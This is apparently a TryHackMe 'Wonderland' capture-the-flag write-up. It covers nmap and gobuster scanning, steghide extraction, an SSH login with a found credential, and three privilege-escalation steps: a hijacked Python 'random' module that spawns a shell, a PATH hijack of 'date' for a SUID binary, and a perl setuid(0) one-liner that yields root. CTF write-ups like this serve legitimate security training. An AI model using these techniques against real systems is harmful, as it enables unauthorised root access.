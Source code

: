 +++
title = "Wonderland - TryHackMe Writup"
description = "Fall down the rabbit hole and enter wonderland."
date = 2024-10-22
slug = "wonderland"
image = "wonderland.jpeg"

[taxonomies]
categories = ["TryHackMe", "Writups"]
tags = ["wonderland", "tryhackme", "stagenography"]
+++

<div style="display: flex; align-items: center;">
  <div>
    <img src="wonderland.jpeg" alt="overpass" width="100"/>
  </div>
  <div style="margin-left: 10px;">
    <i>Fall down the rabbit hole and enter wonderland.</i>
  </div>
</div>


## Scanning
Target IP: 10.10.100.148

Scanning with nmap, we found two ports are open.
<pre>
❯ nmap -sV 10.10.100.148 -v
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-17 14:49 +0545
.....
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

.....
Nmap done: 1 IP address (1 host up) scanned in 39.25 seconds
</pre>

## Enumeration
Enumerating port 80. Content in the home page is 

![alt text](home_page.png)

To find out the directories, we will use gobuster as

`gobuster dir -u http://10.10.100.148/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

In path `/r`, we have the message
<pre>
Keep Going.
"Would you tell me, please, which way I ought to go from here?"
</pre>

We are not getting anything much, faced timeout error. Maybe there is something in the white rabit, as it says follow the white rabbit.

As we can see, there is `hint.txt` inside the image. Now extract and follow the hint.
<pre>
❯ steghide --info white_rabbit_1.jpg
"white_rabbit_1.jpg":
  format: jpeg
  capacity: 99.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hint.txt":
    size: 22.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
</pre>

No need to pass passphrase, `steghide --extract -sf white_rabbit_1.jpg`

After following the path mentioned in the hint, we got the page

![alt text](open_the_door.png)

Some content hidden is found there
<pre>
alice:HowDothThe......HisShiningTail
    image src="/img/alice_door.png"
</pre>

Checking if the information is hidden in alice_door. There is nothing, maybe above hidden content is username and password for ssh. Lets try for this and here we go

# Gaining Access

Here the root flag and user flag are in inverse place
<pre>
Last login: Thu Oct 17 09:37:31 2024 from 10.17.58.84
alice@wonderland:~$ whoami
alice
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ cat root.txt
cat: root.txt: Permission denied
alice@wonderland:~$ ls /root
ls: cannot open directory '/root': Permission denied
alice@wonderland:~$ sudo ls /root
[sudo] password for alice: 
Sorry, user alice is not allowed to execute '/bin/ls /root' as root on wonderland.
alice@wonderland:~$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
</pre>


## Privilege Escalation

<pre>
alice@wonderland:~$ ls -l walrus_and_the_carpenter.py 
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$ cat walrus_and_the_carpenter.py 
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
.....
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
</pre>

We can run this file but can not edit. Here `random` module is imported. Lets make a random.py in the same directory with 

<pre>
import os

os.system("/bin/bash")
</pre>

Running `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`, we are now `rabbit` user. Looking into home directory of rabbit we found a file `teaParty`.

SUID bit is on for teaParty
<pre>
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
</pre>

Running the file, we have following output. It shows that date command is executing so we can manipulate it.
<pre>
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Thu, 17 Oct 2024 11:08:04 +0000
Ask very nicely, and I will give you some tea while you wait for him
w
Segmentation fault (core dumped)
</pre>

I have create date file with content `/bin/bash` and added it to the path by `export PATH=/home/rabbit:$PATH`. Now running the file, we are the hatter
<pre>
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
</pre>

I have password.txt file in the home directory of hatter, which is the password of user hatter. 

By traversing into different user, we are not able to see the root flag. Now using linpeas for the further enumeration.

We have perl, that can be used to esclate privilege. Used GTFOBins for the exploit 

<pre>
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# 
# whoami
root
# cat /home/alice/root.txt
thm{Twinkle, twinkle, .............. what you're at!}
</pre>

Thats all. This is more about the post enumeration and post exploitation things.

Happy Hacking !!
